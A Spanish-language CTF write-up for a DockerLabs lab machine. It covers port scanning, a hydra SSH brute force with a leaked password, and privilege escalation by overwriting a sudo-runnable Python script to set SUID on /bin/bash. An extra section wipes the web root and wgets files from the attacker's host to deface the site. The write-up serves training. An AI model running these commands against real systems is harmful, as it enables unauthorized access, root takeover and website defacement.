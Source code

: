 
![[20250807112116.png]](library-images/20250807112116.png)

# Fase de reconocimiento

primero realizamos un escaneo básico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts
```

una vez detectados los puertos que están abiertos realizamos un segundo escaneo con scripts básicos de nmap para ver que servicios y versiones corren por detras 

```bash
nmap -p22,80 -sCV 172.17.0.2 -oN targeted
```

![[20250807112448.png]](library-images/20250807112448.png)

una vez sabemos los servicios y versiones vamos a ver que se esta ejecutando en la pagina web del puerto 80.

vemos una pagina web de Ubuntu apache

![[20250807112714.png]](library-images/20250807112714.png)

esto corre por el puerto 80 en el directorio 172.17.0.2/index.html vamos a ver si existe un index.php

![[20250807112802.png]](library-images/20250807112802.png)

# Fase de explotacion

vemos que si existe y que contiene lo que podría ser una contraseña no parece que este encriptada ya que solo hay dos números y todas las letras son mayúsculas así que probaremos un ataque con hydra hacia el puerto 22 que estaba abierto usando esta cadena como posible contraseña

```bash
hydra -t 64 -v -L /usr/share/wordlists/SecLists/Usernames/Names/names.txt -p JIFGHDS87GYDFIGD -s 22 172.17.0.2 ssh
```

![[20250807114205.png]](library-images/20250807114205.png)

podemos ver que ha encontrado un usuario "carlos" cuya contraseña es "JIFGHDS87GYDFIGD" por lo que vamos a tratar de conectarnos por ssh.

![[20250807114312.png]](library-images/20250807114312.png)

Y efectivamente tenemos shell en la máquina victima.

# Fase de post-explotación

primero para trabajar mas cómodos haremos una exportación de la TERM a xterm que es la mas usada y cómoda para mi

```bash
export TERM=xterm
```

con esto ya podremos hacer Ctrl + L 


vamos a ver si tenemos permisos de SUDO con algun binario

```bash
sudo -l
```

![[20250807114542.png]](library-images/20250807114542.png)

aqui vemos que podemos ejecutar como root el script se python que esta en la ruta /opt

vamos a ver que permisos tenemos sobre el script

![[20250807114641.png]](library-images/20250807114641.png)

vemos que somos los propietarios del archivo por lo que vamos a eliminarlo y a crear un script con el mismo nombre pero que nos ayude a escalar a root

# Escalada de privilegios 

primero vamos al directorio /opt

```bash
cd /opt
```

y luego borraremos el archivo 

```bash
rm -rf script.py
```

ahora crearemos de nuevo el archivo pero con el siguiente codigo dentro:

```bash
nano script.py
```

```python
import os
import sys

os.system("chmod u+s /bin/bash")
```

lo guardamos y vamos a ejecutar el programa como root

```bash
sudo python3 /opt/script.py
```

![[20250807115058.png]](library-images/20250807115058.png)

ahi podemos ver que ahora la /bin/bash tiene permisos SUID lo que nos permite convertirnos en root cuando queramos con el comando

```bash
bash -p
```

![[20250807115155.png]](library-images/20250807115155.png)

# Extra 1 - alternativa código python

como siempre que hay un script de python con permisos sudo utilizo el comando "chmod u+s /bin/bash" os voy a dejar una alternativa por si quereis directamente la shell como root 

```python
import os
import sys

os.system("bash -p")
```

![[20250807115511.png]](library-images/20250807115511.png)

aqui podéis ver el código python, la bash no tiene permisos SUID y al ejecutar el programa con sudo nos da la shell directamente como root.

# Extra 2 - Firma en http

vamos a dejar nuestra firma en http como solemos hacer en los CTF de dockerlabs. Una vez somos root haremos 

```bash
cd /var/www/html/
```

```bash
rm -r ./*
```

y ahora en nuestra maquina atacante abrimos un puerto http con python

![[20250807115807.png]](library-images/20250807115807.png)

en esta carpeta tengo mi index.html con la imagen panda.png que es la que utilizo para dejar la firma panda2 era otra posible imagen que al final no utilice y proceso son los pasos que os estoy explicando. de esta carpeta lo único que deberíais tener es el index.html personalizado y la imagen que vayáis a utilizar, ahora si abrimos el puerto con python

```bash
python3 -m http.server 8081
```

y en la maquina victima pondremos lo siguiente 

```bash
wget http://192.168.1.182:8081/index.html -O index.html && wget http://192.168.1.182:8081/panda.png -O panda.png
```

![[20250807120048.png]](library-images/20250807120048.png)

una vez se confirma la descarga vamos a la pagina http de la victima y recargamos

![[20250807120120.png]](library-images/20250807120120.png)

y ahí esta nuestra firma.

si queréis ver el proceso con la creación y código del  html esta en mi writeup de la maquina chocolate de DockerLabs.

